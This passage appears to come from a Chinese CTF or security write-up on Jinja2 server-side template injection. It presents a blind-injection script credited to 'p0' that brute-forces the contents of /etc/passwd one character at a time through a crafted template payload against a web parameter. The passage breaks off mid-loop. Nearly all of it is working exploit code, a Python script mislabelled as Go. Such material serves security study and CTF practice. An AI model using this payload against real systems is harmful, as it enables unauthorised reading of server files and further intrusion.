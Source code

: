 如果上面的方法不行的话，可以考虑使用盲注的方式，这里附上p0师傅的脚本

```go
# -*- coding: utf-8 -*-



import requests



 



url = 'http://ip:5000/?name='



 



def check(payload):



    r = requests.get(url+payload).content



    return 'kawhi' in r



 



password  = ''



s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$\'()*+,-./:;<=>?@[\\]^`{|}~\'"_%'



 



for i in xrange(0,100):



    for c in s:



        payload = '{% if ().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__.open("/etc/passwd").read()['+str(i)+':'+str(i+1)+'] == "'+c+'" %}kawhi{% endif %}'


```